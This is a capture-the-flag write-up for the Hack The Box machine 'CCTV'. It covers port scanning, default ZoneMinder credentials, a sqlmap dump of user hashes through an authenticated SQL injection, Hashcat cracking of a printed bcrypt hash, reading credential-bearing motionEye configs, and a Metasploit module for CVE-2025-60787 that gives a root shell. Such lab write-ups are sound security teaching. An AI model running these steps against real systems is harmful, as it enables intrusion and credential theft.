# HTB - CCTV

**IP Address:** `10.129.20.51`  
**OS:** `Linux (Ubuntu; OpenSSH 9.6p1, Apache 2.4.58 per nmap)`  
**Difficulty:** `Easy`  
**Tags:** #ZoneMinder #MotionEye #MediaMTX #SQLi #Hashcat #SSH #Metasploit

---
## Synopsis

CCTV exposed a marketing site on `cctv.htb` that forwards operators into **ZoneMinder** (`v1.37.63`) with weak default web credentials. Once authenticated in the browser, the `removetag` request path proved vulnerable to **authenticated time-based SQL injection** on the `tid` parameter, allowing extraction of **`zm.Users`** password hashes. The `mark` user’s bcrypt hash cracked offline with **Hashcat**, yielding SSH access as `mark`. On the host, **motionEye `0.43.1b4`**, **Motion**, and **mediamtx** listened only on **localhost**; configuration under `/etc/motioneye/` revealed motionEye admin material usable for UI access. After **SSH local port forwarding** to reach the loopback-bound motionEye service, **Metasploit’s authenticated MotionEye module (CVE-2025-60787)** returned a **root** shell, which allowed reading **`user.txt`** under `sa_mark` and **`root.txt`**.

---
## Skills Required

- ICMP reachability checks and **Nmap** TCP scanning (`-p-`, `-sCV`)
- Virtual host routing (`/etc/hosts`) and basic **HTTP fingerprinting** (`whatweb`, `curl`)
- **Authenticated web testing** (browser session cookies vs unauthenticated `curl` sessions)
- **sqlmap** against a gated HTTP endpoint (cookie replay from a real logged-in session)
- **Hashcat** for bcrypt (`-m 3200`) and **SSH** pivoting
- Local service discovery on Linux (`ss`, `curl` to loopback listeners)

## Skills Learned

- How **ZoneMinder** exposes authenticated request handlers that can differ from unauthenticated `curl` probes (`401` vs browser session)
- Interpreting **time-based blind SQLi** findings and noisy HTTP `500` responses during extraction
- Mapping a **CCTV pipeline**: **mediamtx RTSP** → **Motion** → **motionEye** UI, commonly bound to **127.0.0.1**
- Using **SSH `-L`** to reach **loopback-only** admin UIs safely for validation and documentation
- Correlating **motionEye/Motion** on-disk artifacts (media directory listings) with UI-driven naming features

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is alive using ICMP:

```bash
ping -c 1 10.129.20.51
```



---
### 1.2 Port Scanning

Scan all TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.20.51 -oG allPorts
```

- `-p-` : Scan all 65,535 ports  
- `--open` : Show only open ports  
- `-sS` : SYN scan (stealthy and fast)  
- `--min-rate 5000` : Increase scan speed  
- `-Pn` : Skip host discovery  
- `-oG` : Output in grepable format  



Extract the open ports:

```bash
extractPorts allPorts
```



---
### 1.3 Targeted Scan

Run a deeper scan on the identified ports with version detection and default scripts:

```bash
nmap -sCV -p22,80 10.129.20.51 -oN targeted
cat targeted
```

- `-sC` : Run default NSE scripts  
- `-sV` : Detect service versions  
- `-oN` : Output in human-readable format  




**Findings:**

| Port(s) | Service | Notes |
|---|---|---|
| 22 | SSH | OpenSSH 9.6p1 Ubuntu (`nmap -sCV`) |
| 80 | HTTP | Apache 2.4.58 Ubuntu; redirects to `http://cctv.htb/` (`nmap -sCV`) |

Add a host mapping to follow the vhost redirect:

```bash
echo "10.129.20.51 cctv.htb" | sudo tee -a /etc/hosts
```



---
## 2. Service Enumeration

### 2.1 `cctv.htb` Enumeration (SecureVision marketing site)

With the vhost mapped, fingerprint the public site and capture the primary landing content and metadata.

```bash
whatweb http://cctv.htb/
curl -sI http://cctv.htb/
```




---
### 2.2 ZoneMinder (`/zm/`) discovery and version confirmation

The “Staff login” entry point led to **ZoneMinder** on `http://cctv.htb/zm/index.php`. The UI showed **v1.37.63** and allowed access with default administrator credentials (`admin:admin`) from the engagement notes.

```text
[Browser] Open http://cctv.htb/ → Staff Login → http://cctv.htb/zm/index.php
```



---
## 3. Foothold

### 3.1 Authenticated SQL injection on ZoneMinder (`tid`) → `zm.Users` dump

The `view=request&request=event&action=removetag` handler returned **`401 Unauthorized`** when replaying a **pre-login** `ZMSESSID` from `curl`, but worked once the session cookie matched a **real browser-authenticated** ZoneMinder session. `sqlmap` then identified **time-based blind SQL injection** on **`tid`** and dumped **`zm.Users`**.

```bash
sqlmap -u "http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1" \
  --cookie="ZMSESSID=<BROWSER_SESSION_COOKIE>" \
  --dump -T Users -D zm
```


![[Pasted image 20260416202031.png]]
**Recovered (from notes):** bcrypt hashes for `mark`, `admin`, and `superadmin` in database `zm` .

---
### 3.2 Offline hash cracking → SSH as `mark`

The `mark` bcrypt hash from `zm.Users` was cracked offline with **Hashcat** (`-m 3200`) against `rockyou.txt`, producing the plaintext password recorded in the notes. SSH then succeeded as `mark` (hostname `cctv`).

```bash
hashcat -m 3200 '$2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG.' /usr/share/wordlists/rockyou.txt
ssh mark@10.129.20.51
```




---
## 4. Privilege Escalation

### 4.1 Localhost CCTV stack enumeration (`mark` shell)

On the host, `mark` had **no sudo**. Local listening services included **MySQL on `127.0.0.1:3306`** and multiple loopback-only CCTV-related ports. HTTP probes identified **motionEye `0.43.1b4` on `127.0.0.1:8765`**, **mediamtx on `127.0.0.1:8888`**, and a **Motion** webcontrol plaintext status page on **`127.0.0.1:7999`**. Configuration under `/etc/motioneye/` showed motionEye bound to **loopback** and embedded motionEye admin metadata in `motion.conf`.

```bash
sudo -l
id
groups
ip a
ss -lntp
for p in 8765 8888 9081 7999; do echo "---- $p"; curl -sS -m 2 -D- "http://127.0.0.1:$p/" -o /dev/null | head -n 20; done
curl -sS -m 2 -i "http://127.0.0.1:7999/" | head -n 50
sed -n '1,200p' /etc/motioneye/motioneye.conf
sed -n '1,120p' /etc/motioneye/motion.conf
sed -n '1,120p' /etc/motioneye/camera-1.conf
```









---
### 4.2 SSH port-forward to motionEye + authenticated RCE (CVE-2025-60787) → `root` → flags

Because motionEye listens on **`127.0.0.1:8765`**, access from the attacker workstation used **SSH local port forwarding** through the existing `mark` SSH session. Metasploit’s **`exploit/linux/http/motioneye_auth_rce_cve_2025-60787`** reported the target vulnerable (**motionEye `0.43.1b4`**) and returned a **meterpreter** session executing as **`root`**. From that shell, the flags were read from `/home/sa_mark/user.txt` and `/root/root.txt` (exact values in the notes).

```bash
ssh -N -v -L 8766:127.0.0.1:8765 mark@10.129.20.51
```

